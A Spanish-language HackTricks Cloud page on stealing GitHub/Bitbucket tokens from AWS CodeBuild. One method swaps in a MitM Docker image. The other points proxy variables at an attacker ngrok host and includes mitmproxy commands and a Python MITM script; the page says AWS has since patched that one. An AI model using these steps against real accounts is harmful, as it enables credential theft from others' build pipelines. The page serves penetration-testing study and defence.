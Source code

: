 # AWS Codebuild - Fuga de Tokens

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si deseas ver a tu **empresa anunciada en HackTricks** o si deseas acceder a la **última versión de PEASS o descargar HackTricks en PDF**, ¡consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección de exclusivos [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Comparte tus trucos de hacking enviando PR a los repositorios de GitHub de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Recuperar Tokens Configurados de Github/Bitbucket

### A través de la imagen Docker

Si descubres que la autenticación, por ejemplo, de Github está configurada en la cuenta, puedes **filtrar** ese **acceso** (**token GH o token OAuth**) haciendo que Codebuild **use una imagen Docker específica** para ejecutar la compilación del proyecto.

Para este propósito, podrías **crear un nuevo proyecto de Codebuild** o cambiar el **entorno** de uno existente para establecer la **imagen Docker**.

La imagen Docker que podrías usar es [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Esta es una imagen Docker muy básica que establecerá las variables de entorno `https_proxy`, `http_proxy` y `SSL_CERT_FILE`. Esto te permitirá interceptar la mayoría del tráfico del host indicado en `https_proxy` y `http_proxy` y confiar en el CERT SSL indicado en `SSL_CERT_FILE`.

1. **Crea y carga tu propia imagen Docker MitM**
   * Sigue las instrucciones del repositorio para establecer la dirección IP de tu proxy y establecer tu certificado SSL y **compila la imagen Docker**.
     * **NO ESTABLEZCAS `http_proxy`** para no interceptar solicitudes al punto de conexión de metadatos.
   * Podrías usar **`ngrok`** como `ngrok tcp 4444` para establecer el proxy en tu host.
   * Una vez que hayas compilado la imagen Docker, **cárgala en un repositorio público** (Dockerhub, ECR...)
2. **Establece el entorno**
   * Crea un **nuevo proyecto de Codebuild** o **modifica** el entorno de uno existente.
   * Establece el proyecto para usar la **imagen Docker generada anteriormente**
   *

       <figure><img src="../../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>
3. **Establece el proxy MitM en tu host**
   * Como se indica en el **repositorio de Github**, podrías usar algo como: `mitmproxy --listen-port 4444 --set block_global=false --allow-hosts "github.com"`
4. **Ejecuta la compilación y captura las credenciales**
   * Puedes ver el token en la cabecera de autorización:

       <figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

### A través del protocolo HTTP

{% hint style="success" %}
**Esta vulnerabilidad fue corregida por AWS en algún momento de la semana del 20 de febrero de 2023 (creo que el viernes). Por lo tanto, un atacante ya no puede abusar de ella :)**
{% endhint %}

Un atacante con **permisos elevados en CodeBuild podría filtrar el token de Github/Bitbucket** configurado o si los permisos se configuraron a través de OAuth, el **token OAuth temporal utilizado para acceder al código**.

* Un atacante podría agregar las variables de entorno **http\_proxy** y **https\_proxy** al proyecto CodeBuild apuntando a su máquina (por ejemplo, `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

* Luego, cambia la URL del repositorio de Github para usar HTTP en lugar de HTTPS, por ejemplo: **http://**github.com/carlospolop-forks/TestActions
* Luego, ejecuta el ejemplo básico de [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) en el puerto indicado por las variables de proxy (http\_proxy y https\_proxy)

```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
    host="127.0.0.1",
    port=4444,
    protocols=[protocol.HTTP], 
    middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
    certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```

* Finalmente, haz clic en **Compilar el proyecto**, las **credenciales** se enviarán en texto claro (base64) al puerto mitm:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Ahora un atacante podrá usar el token desde su máquina, listar todos los privilegios que tiene y (ab)usar más fácilmente que usando directamente el servicio CodeBuild.
{% endhint %}

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si deseas ver a tu **empresa anunciada en HackTricks** o si deseas acceder a la **última versión de PEASS o descargar HackTricks en PDF**, ¡consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección de exclusivos [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Comparte tus trucos de hacking enviando PR a los repositorios de GitHub de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>